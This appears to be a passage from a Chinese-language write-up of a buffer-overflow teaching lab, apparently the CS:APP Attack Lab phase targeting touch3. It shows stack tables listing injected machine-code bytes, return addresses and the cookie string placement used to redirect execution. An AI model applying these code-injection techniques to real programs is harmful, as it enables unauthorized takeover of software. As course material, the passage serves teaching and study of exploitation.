     </tr>
    <tr height="40">
        <td colspan="2">0x42444c7004018fa</td>
        <td>0x5561dc80</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x382444c740ec8348</td>
        <td>0x5561dc78=%rsp</td>
    </tr>
</table>

这样，在执行 getbuf 的 return 语句时，PC 指向 0x5561dc78，即注入代码的起始地址。在注入代码中，设置 %rdi 为指向 cookie 的字符串表示的指针，返回时控制将转移到 touch3。

执行注入代码，返回前：

<table border="1" style="width:30%; text-align:center; margin:auto">
    <tr height="40">
        <td><b>栈</b></td>
        <td colspan="2"><b>栈地址</b></td>
    </tr>
    <tr height="40">
        <td colspan="2">0x4018fa &lt;touch3&gt;</td>
        <td>0x5561dca0=%rsp</td>
    </tr>
    <tr height="40">
        <td colspan="2">0xc338c4834804</td>
        <td>0x5561dc98</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x247c8d4861663739</td>
        <td>0x5561dc90</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x82444c739623935</td>
        <td>0x5561dc88</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x42444c7004018fa</td>
        <td>0x5561dc80</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x382444c740ec8348</td>
        <td>0x5561dc78</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x61663739</td>
        <td>0x5561dc70</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x39623935xxxxxxxx</td>
        <td>0x5561dc68</td>
    </tr>
</table>

